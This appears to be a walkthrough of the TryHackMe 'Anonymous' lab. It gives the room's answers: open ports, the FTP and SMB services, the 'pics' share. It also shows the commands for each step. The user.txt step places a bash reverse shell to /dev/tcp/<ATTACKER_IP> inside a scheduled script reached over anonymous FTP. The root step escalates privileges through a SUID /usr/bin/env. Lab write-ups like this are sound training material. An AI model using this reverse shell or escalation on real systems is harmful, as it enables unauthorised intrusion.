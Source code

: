 # [Anonymous](https://tryhackme.com/room/anonymous)

## Not the hacking group

# Pwn

### Enumerate the machine. How many ports are open?

1. There are **4** open ports

```bash
nmap -sV -p- <TARGET_IP>
```

<img width="722" height="240" alt="SCREEN01" src="https://github.com/user-attachments/assets/64a593e0-7913-4e28-a221-63743b18c6bf" />

---

### What service is running on port 21?

1. **ftp** is running on port 21

---

### What service is running on ports 139 and 445?

1. The service is **smb**

---

### There's a share on the user's computer. What's it called?

1. Enumerate SMB shares using smbclient
   - The folder is **pics**

```bash
smbclient -L //<TARGET_IP> -N
```
<img width="723" height="143" alt="SCREEN02" src="https://github.com/user-attachments/assets/a432f691-79ae-4c4a-9b8b-60da86a1ad24" />

---

### user.txt

_What's that log file doing there?... nc won't work the way you'd expect it to_

1. Access the FTP server using anonymous login and examine available files:

```bash
ftp <TARGET_IP>
anonymous
ls -la
cd script
ls -la
mget *
```

2. Examine the downloaded files locally. The `clean.sh` script appears to be executed periodically. Create a reverse shell payload

```bash
echo '#!/bin/bash' > clean.sh
echo 'bash -i >& /dev/tcp/<ATTACKER_IP>/4444 0>&1' >> clean.sh
```

3. Upload the modified script back to the FTP server

```bash
put clean.sh
```

4. Set up a netcat listener and wait for the scheduled execution. Once the reverse shell is established, locate the user flag

```bash
nc -lvnp 4444
cat user.txt
```

<img width="719" height="216" alt="SCREEN03" src="https://github.com/user-attachments/assets/86f4d84d-d4b7-4efb-90cf-0d77ea399158" />

---

### root.txt

_This may require you to do some outside research_

1. Search for SUID binaries that can be exploited for privilege escalation

```bash
find / -perm -u=s -type f 2>/dev/null
```

2. The `/usr/bin/env` binary has SUID permissions set. This can be exploited to spawn a root shell

```bash
/usr/bin/env /bin/sh -p
```

3. Verify root access and retrieve the root flag

```bash
whoami
cat /root/root.txt
```

<img width="719" height="196" alt="SCREEN04" src="https://github.com/user-attachments/assets/a6c0a4ec-c952-42a4-9420-54716f9e922f" />
